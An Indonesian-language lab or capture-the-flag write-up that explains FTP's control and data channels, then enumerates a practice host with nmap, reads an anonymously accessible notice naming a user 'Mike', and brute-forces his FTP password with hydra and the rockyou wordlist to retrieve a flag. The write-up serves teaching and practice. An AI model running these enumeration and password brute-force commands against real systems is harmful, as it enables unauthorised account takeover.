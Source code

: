 # Understanding FTP

FTP atau File Transfer Protocol merupakan protokol yang memungkinkan remote transfer file antar network. FTP menggunakan client-server model, dan menyampaikan data dan command secara efisien. Client akan menginisiasi connection dengan server, selanjutnya server akan memvalidasi login credentials yang ada dan membuka session, dan ketika session telah dibuka client dapat exec FTP command di server.

ada 2 tipikal FTP session yang biasa digunakan:

1. command/control channel
2. data channel

sesuai dengan namanya command/control channel digunakan untuk transmitting command dan juga menjawab command tersebut, sedangkan data channel digunakan untuk transfer data.

### Active vs Passive

FTP mungkin support active dan passsive connection, atau bahkan keduanya.

- di active FTP connection, client membuka port dan mendengarkan di port tersebut. Server diperlukan untuk secara aktif terkoneksi dengan port tersebut.
- di passive FTP connections, server membuka port dan mendengarkan di port tersebut (secara pasif) dan client terhubung ke port tersebut.

pemisahan command info dan data ke channel yang terpisah merupakan salah satu cara agar dapat mengirimkan command ke server tanpa harus menunggu transfer data selesai. Jika keduanya terhubung, kita hanya bisa memasukkan command diantara data transfers, yang mana sangat tidak efisien untuk data yang berukuran besar dan internet yang lambat.

# Enumerating FTP

Lakukan enumerasi menggunakan nmap.

```shell
sudo nmap <IP> -A -oN enumer
```

hasilnya kira-kira seperti berikut

```shell
...
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.38.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
```

ada 2 port yang terbuka yaitu port 21 & 80. Jenis FTP yang berjalan disini adalah `vsftpd`. selanjutnya kita dapat login ke FTP dengan cara 

```shell
ftp <IP>
```

setelah kita masuk, kita dapat melihat isi direktori dengan `ls`, jika ingin tau command apa saja yang dapat digunakan, kita dapat gunakan command `?`. Kita menemukan file bernama `PUBLIC_NOTICE.txt`, kita dapat melihat isi kontennya dengan menggunakan command `less` atau `more`, atau bisa juga kita download dengan command `mget`.

isi konten file tersebut:

```shell
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,

Mike
```

Potensial username atau user adalah **Mike**.

# Exploiting FTP

Sama dengan Telnet, ketika menggunakan FTP, command dan data channel tidak ter enkripsi. Data apapun yang dikirim melalui channel ini dapat di intercept dan dibaca oleh orang lain. Dari enumerasi yang sebelumnya dilakukan, kita mendapatkan informasi bahwa server ini memliki port FTP yang terbuka, FTP tersebut dapat dimasuki secara anonim, dan kita juga mendapat potential username yaitu `'Mike'`.

Untuk melakukan exploiting, kita dapat menggunakan metode brute-forcing dengan modal potential username tersebut. Metode brute-forcing yang digunakan disini adalah dengan menggunakan `hydra`.

```shell
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt <IP> ftp > cracked.txt
```

penjelasan:
- `-t 4` : jumlah task paralel yang dijalankan
- `-l mike` : nama user
- `-P /path/to/file.txt` : path dictionary password yang dimiliki
- `ftp` : service yang akan diserang
- `> cracked.txt` : hasil akan disimpan di file cracked.txt

hasil di cracked.txt

```shell
...
[DATA] attacking ftp://10.10.124.0:21/
[21][ftp] host: 10.10.124.0   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
...
```

selanjutnya kita dapat melakukan login ke FTP dengan username `'mike'` dan password `'password'`, dan kita lakukan `ls` untuk melihat isi direktori. Flag adalah ftp.txt, kita dapat menggunakan command `more ftp.txt` untuk melihat flagnya.
